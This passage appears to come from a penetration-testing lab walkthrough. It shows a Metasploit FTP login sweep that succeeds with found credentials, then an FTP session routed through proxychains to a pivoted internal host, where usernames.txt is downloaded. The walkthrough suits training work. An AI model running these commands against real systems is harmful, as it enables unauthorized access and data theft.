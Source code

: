 ```

Nmap done: 1 IP address (1 host up) scanned in 53.42 seconds
```

**Step 9**.

`search ftp login`, `use auxiliary/scanner/ftp/ftp_login`, `show options`, `set RHOSTS demo1.ine.local`, `set USERNAME admin`, `set PASSWORD FTPStrongPwd`, `exploit`:
```
[*] 10.4.20.122:21          - 10.4.20.122:21 - Starting FTP login sweep
[!] 10.4.20.122:21          - No active DB -- Credential data will not be saved!
[+] 10.4.20.122:21          - 10.4.20.122:21 - Login Successful: admin:FTPStrongPwd
[*] demo1.ine.local:21		- Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`proxychains ftp 10.4.27.53`:
```
[*] exec: proxychains ftp 10.4.27.53

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.27.53:21  ...  OK
Connected to 10.4.27.53.
220-FileZilla Server 1.2.0
220 Please visit https://filezilla-project.org/
Name (10.4.27.53:root): admin ←
331 Please, specify the password.
Password: ←
230 Login successful. ←
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49380|)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.27.53:49380  ...  OK
150 Starting data transfer.
drwxrwxrwx 1 ftp ftp               0 May 21  2014 AccountPictures
drwxrwxrwx 1 ftp ftp               0 Jan 11  2022 Desktop
-rw-rw-rw- 1 ftp ftp             174 Aug 22  2013 desktop.ini
drwxrwxrwx 1 ftp ftp               0 Aug 22  2013 Documents
drwxrwxrwx 1 ftp ftp               0 Aug 22  2013 Downloads
drwxrwxrwx 1 ftp ftp               0 Aug 22  2013 Libraries
drwxrwxrwx 1 ftp ftp               0 Aug 22  2013 Music
drwxrwxrwx 1 ftp ftp               0 Aug 22  2013 Pictures
-rw-rw-rw- 1 ftp ftp              32 Jan 11  2022 usernames.txt ←
drwxrwxrwx 1 ftp ftp               0 Aug 22  2013 Videos
226 Operation successful
ftp> get usernames.txt ←
local: usernames.txt remote: usernames.txt
229 Entering Extended Passive Mode (|||49382|)
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.27.53:49382  ...  OK
150 Starting data transfer.
100% |*********************************************************************************************************|    32        0.10 KiB/s    00:00 ETA
226 Operation successful
32 bytes received in 00:00 (0.10 KiB/s)
```
